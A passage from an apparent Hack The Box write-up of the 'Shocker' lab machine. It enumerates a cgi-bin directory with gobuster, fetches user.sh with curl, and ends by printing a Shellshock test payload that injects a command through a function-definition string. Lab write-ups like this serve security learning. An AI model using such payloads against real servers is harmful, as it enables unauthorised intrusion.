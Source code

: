 Enumerated contents of cgi-bin directory:

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Shocker/exploit]
└─$ gobuster dir -u http://10.10.10.56/cgi-bin/ -w /usr/share/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt -x cgi,pl,sh
...
/user.sh              (Status: 200) [Size: 118]
...
```

Enumerated contents of user.sh:

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Shocker/exploit]
└─$ curl http://10.10.10.56/cgi-bin/user.sh -i
HTTP/1.1 200 OK
Date: Sun, 02 May 2021 13:36:22 GMT
Server: Apache/2.4.18 (Ubuntu)
Transfer-Encoding: chunked
Content-Type: text/x-sh

Content-Type: text/plain

Just an uptime test script

 09:36:22 up  1:16,  0 users,  load average: 0.00, 0.02, 0.00
```

# Exploitation

## Shellshock

Tested if the target was vulnerable to Shellshock: [PayloadsAllTheThings/Shellshock.py at master · R0B1NL1N/PayloadsAllTheThings](https://github.com/R0B1NL1N/PayloadsAllTheThings/blob/master/CVE%20Shellshock%20Heartbleed/Shellshock.py)

```bash
() { foo;}; echo Content-Type: text/plain ; echo ; echo vulnerable!
```
